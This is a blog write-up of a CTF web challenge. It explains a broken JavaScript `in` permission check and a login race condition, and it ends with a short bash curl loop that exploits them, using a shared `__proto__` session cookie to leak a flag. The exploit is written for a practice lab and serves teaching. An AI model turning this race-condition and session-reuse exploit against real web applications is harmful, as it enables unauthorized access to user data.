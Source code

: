 ```yaml
---
layout: default
title: "Würth Phoenix CTF 2023 writeup of User Management"
title_left: WPCTF2023
fn_keys:
  - key: F3
    text: Exit
    href: "/blog"
  - key: F12
    text: Print
    href: "#"
    onclick: "window.print(); return false"
description: Writeup of the Würth Phoenix CTF challenge 2023 challenge User Management
---
```


# Würth Phoenix 2023 Writeup

The 2023 edition of the Würth Phoenix challenge went great for our team Pearàk, winning the 
competition.

Among the multiple challenges that we solved, one we enjoyed one in particular, and we also
were the only one to solve it.

So here is the writeup.

## User Management

The challenge presents with a login page where you can register. From a first analysis of the
code (that fortunately we had access to) we could see that there were 3 users:

```js
const insert = 'INSERT INTO user (name, surname, password, enabled) VALUES (?,?,?,?)';
db.run(insert, ["admin","admin",crypto.randomBytes(20).toString('hex'),0])
db.run(insert, ["anyone","anyone","anyone",1])
db.run(insert, ["flag",FLAG,crypto.randomBytes(20).toString('hex'), 0])
```

As it can be seen, the only account that we can use is "anyone" with password "anyone".
The other accounts we can not use it for two reasons, first they are not enabled, and 
second we don't know the password (nobody does, anyway). 

It's also clear that the flag is in the surname field of the "flag" user, that however
we can not use it.

From an analysis of the code we also see that there is no possibility to do SQL injection.
We need to invent something else!

We also see that there is an user privilege mechanism:
```js
exports.PERMISSION = {
    ADMIN: 0,
    GUEST: 1,
}

db.run(`CREATE TABLE permissions (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    name text UNIQUE,
    permission integer, 
    CONSTRAINT name UNIQUE (name)
  )`,
  (err) => {
      if (!err) {
          // Table just created, creating some rows
          const insert = 'INSERT INTO permissions (name, permission) VALUES (?,?)';
          db.run(insert, ["admin",0])
          // db.run(insert, ["anyone",1])
          db.run(insert, ["flag",1])
      }
  }); 
```

As it can be seen, the "flag" user has no permission at all (we will see why this is important later!).

## First intuition

We see that we can call this API to retrieve the information of all the users:

```js
app.get("/api/users",async (req, res) =>{
    if(
        req.session.user && session_manager.PERMISSION.ADMIN in req.session.user.permission
    ){  // check if users has session_manager.PERMISSION.ADMIN
        db.all("SELECT id, name, surname, permission, '***' as password FROM user", (err, users)=>{
            res.json({
                success: true,
                users: users
            });
        });
    }else{
        res.status(401).json({
            success: false,
            error: "Unauthorized"
        });
    }    
})
```

We stared at this code for too much time without seeing the issue. Can you spot it?

Let me hint something to you, if you did uncomment the insert at the previous chapter of the 
permission this code would have validated the user as an admin! How you say? The code did 
only tell you that the user was a guest.

Well... what does the `in` operator to in JavaScript? Not what you expect! It checks that the 
specified **key** is in the array. In this case the key `0`. Thus, this check will pass not only
for admin users, but for users whom the `permission` array is not empty!

## Second vulnerability

Well, but we can't do nothing. Because, we seen that the `permission` array of the user was empty, 
at the previous chapter. Are you sure about that? Let's see how an user is created:

```js
app.post('/login', async(req, res) => {
    db.all("SELECT * FROM user WHERE name=? AND enabled=1", [req.body.username], (err, users)=>{
        // omitted password check. No vulnerability is there! 

        req.session.user = {
            name: user.name,
            surname: user.surname,
            permission: [session_manager.PERMISSION.GUEST], // default no permission
            id: user.id,
        }

        // HERE!!!

        db.all("SELECT * FROM permissions WHERE name=?", [req.body.username], (err, permissions)=>{
            req.session.user.permission = permissions.map((p)=>p.permission) || [];
        })

        res.json({
            success: true
        });
    });
});
```

As you can see, first the session of the user is first created with a `permission` array initialized
with a guest element. For the broken check at the previous chapter, we can say for sure that if we 
would have called the API `/api/users` in that particular point of the flow of execution, the API 
would have returned US the user list!

So... basically it's a race condition! 

## Exploit

So we could have a thread that continues logging in the `anyone` user, and another thread continuing
calling the `/api/users` API, and we would have a moment where the call would return, since the second 
SQL query does indeed block the request handler and may unlock the handling of the request of the 
other call. 

We have only one last issue to address. The session generation! How can we make sure that we use always
the same session token? Well, simple enough. If you see the session id is not reset when the user logs in,
indeed the session ID of the request is used if provided in the cookie. 

We just have to make sure that the two threads use the same session ID to make this work. Since the 
session ID is just a key in a JS object, we can just use a property that for sure is present in an 
object (like `__proto__`). I initially seen it as a potential third vulnerability, but now that I 
think of it it was not strictly necessary, we could have just have invoked `/login` once, got the 
session token and then used it for the two threads. 

Here is an ugly crafted bash script to exploit it (yes, it's a terrible hack, but it works!):

```bash
# login request thread
(while true; do curl http://$1/login -H 'Content-Type: application/json' -d '{ "username": "anyone", "password": "anyone" }' -H 'Cookie: session_id=__proto__; Path=/' 2>/dev/null >/dev/null; done) &

# api users thread
while true; do
  curl http://$1/api/users -H 'Cookie: session_id=__proto__; Path=/' 2>/dev/null | grep flag
done;
```

In less than a second the race condition is triggered and we got the flag!

## Conclusion

The Würth Phoenix CTF was a very fun event, and we want to thank al the organizers for the 
great time and prizes we had!

